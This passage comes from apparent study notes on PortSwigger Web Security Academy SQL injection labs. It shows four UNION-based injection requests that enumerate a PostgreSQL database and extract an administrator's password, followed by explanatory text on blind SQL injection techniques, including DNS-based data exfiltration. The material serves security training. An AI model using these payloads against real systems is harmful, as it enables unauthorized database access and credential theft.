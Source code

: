 - Find out the DBMS version by injecting this code:

```http
GET https://0af50001037a8365807a052700e200d7.web-security-academy.net/filter?category=Pets' union select version(), null -- HTTP/1.1
```

- The DBMS used is PostgreSQL!

- Now retrieve all the table names:

```http
GET https://0af50001037a8365807a052700e200d7.web-security-academy.net/filter?category=Pets' union select table_name, null from information_schema.tables -- HTTP/1.1
```

- Then retrieve the column names of the users table just found:

```http
GET https://0af50001037a8365807a052700e200d7.web-security-academy.net/filter?category=Pets' union select column_name, null from information_schema.columns where table_name='users_bnkapd' -- HTTP/1.1
```

- Eventually, retrieve the administrator's username and password:

```http
GET https://0af50001037a8365807a052700e200d7.web-security-academy.net/filter?category=Pets' union select password_lqbril, null from users_bnkapd where username_dfjjlm='administrator' -- HTTP/1.1
```


### Blind SQL injection vulnerabilities

Many instances of SQL injection are blind vulnerabilities. This means that the application does not return the results of the SQL query or the details of any database errors within its responses. Blind vulnerabilities can still be exploited to access unauthorized data, but the techniques involved are generally more complicated and difficult to perform.

The following techniques can be used to exploit blind SQL injection vulnerabilities, depending on the nature of the vulnerability and the database involved:

- You can conditionally trigger an error such as a divide-by-zero.
- You can conditionally trigger a time delay in the processing of the query. This enables you to infer the truth of the condition based on the time that the application takes to respond.
- You can trigger an out-of-band network interaction, using OAST techniques. Often, you can directly exfiltrate data via the out-of-band channel. For example, you can place the data into a DNS lookup for a domain that you control.

#### Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
